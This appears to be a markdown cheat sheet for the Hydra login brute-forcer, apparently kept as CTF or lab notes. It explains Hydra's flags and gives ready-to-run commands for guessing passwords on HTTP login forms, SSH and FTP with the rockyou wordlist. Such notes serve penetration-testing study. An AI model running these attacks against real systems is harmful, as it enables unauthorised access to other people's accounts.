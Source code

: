 # Hydra


`-s` PORT to specify a non-default port for the service in question.

`-V` or -vV, for verbose, makes Hydra show the username and password combinations that are being tried. This verbosity is very convenient to see the progress, especially if you are still not confident of your command-line syntax.

`-t` n where n is the number of parallel connections to the target. -t 16 will create 16 threads used to connect to the target.

`-d`, for debugging, to get more detailed information about what’s going on. The debugging output can save you much frustration; for instance, if Hydra tries to connect to a closed port and timing out, -d will reveal this right away.





## http
```
sudo hydra <username> <wordlist> MACHINE_IP http-post-form "<path>:<login_credentials>:<invalid_response>"

hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

```


## ssh
```
hydra -l <username> -P <full path to pass> [IP] -t 4 ssh

hydra -l username -P wordlist.txt server service

hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV [IP] ssh

```

## ftp
```
hydra -l user -P passlist.txt ftp://[IP]

hydra -l mark -P /usr/share/wordlists/rockyou.txt [IP] ftp

hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV ftp://[IP]

```




